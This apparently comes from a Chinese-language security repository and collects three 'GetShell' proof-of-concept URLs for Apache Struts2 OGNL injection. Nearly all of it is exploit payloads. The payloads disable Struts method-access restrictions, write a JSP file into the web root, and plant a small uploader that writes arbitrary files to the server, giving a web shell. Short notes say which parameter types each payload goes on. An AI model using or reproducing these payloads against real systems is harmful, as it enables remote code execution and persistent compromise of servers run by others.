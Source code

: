 ![2013072423413593661_png.jpg](img/img29_u4_jpg.jpg)

#### **GetShell POC：**

poc1:

```
http://127.0.0.1/Struts2/test.action?('\u0023_memberAccess[\'allowStaticMethodAccess\']')(meh)=true&(aaa)(('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003d\u0023foo')(\u0023foo\u003dnew%20java.lang.Boolean(%22false%22)))&(i1)(('\43req\75@org.apache.struts2.ServletActionContext@getRequest()')(d))&(i12)(('\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i13)(('\43xman.getWriter().println(\43req.getServletContext().getRealPath(%22\u005c%22))')(d))&(i2)(('\43fos\75new\40java.io.FileOutputStream(new\40java.lang.StringBuilder(\43req.getRealPath(%22\u005c%22)).append(@java.io.File@separator).append(%22css3.jsp%22).toString())')(d))&(i3)(('\43fos.write(\43req.getParameter(%22p%22).getBytes())')(d))&(i4)(('\43fos.close()')(d))&p=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b%25%3e 
```

POC2（类型转换漏洞需要把 POC 加在整型参数上）:

```
http://127.0.0.1/Struts2/test.action?id='%2b(%23_memberAccess[%22allowStaticMethodAccess%22]=true,%23req=@org.apache.struts2.ServletActionContext@getRequest(),new+java.io.BufferedWriter(new+java.io.FileWriter(%23req.getRealPath(%22/%22)%2b%22css3.jsp%22)).append(%23req.getParameter(%22p%22)).close())%2b'%20&p=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b%25%3e 
```

POC3（需要注意这里也必须是加载一个 String(字符串类型)的参数后面，使用的时候把 URL 里面的两个 foo 替换成目标参数（注意 POC 里面还有个 foo））:

```
http://127.0.0.1/Struts2/hello.action?foo=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%23req=@org.apache.struts2.ServletActionContext@getRequest(),new+java.io.BufferedWriter(new+java.io.FileWriter(%23req.getRealPath(%22/%22)%2b%22css3.jsp%22)).append(%23req.getParameter(%22p%22)).close())(meh%29&z[%28foo%29%28%27meh%27%29]=true&p=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b%25%3e 
```
